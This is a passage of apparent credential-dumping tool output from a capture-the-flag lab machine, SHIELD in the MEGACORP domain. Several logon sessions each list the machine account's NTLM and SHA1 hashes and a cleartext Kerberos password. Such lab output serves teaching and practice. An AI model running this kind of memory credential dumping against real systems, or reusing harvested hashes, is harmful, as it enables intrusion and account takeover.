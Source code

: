 ~~~
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 6/13/2020 10:23:30 AM
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 65790 (00000000:000100fe)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/13/2020 9:10:57 AM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 65770 (00000000:000100ea)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/13/2020 9:10:57 AM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
~~~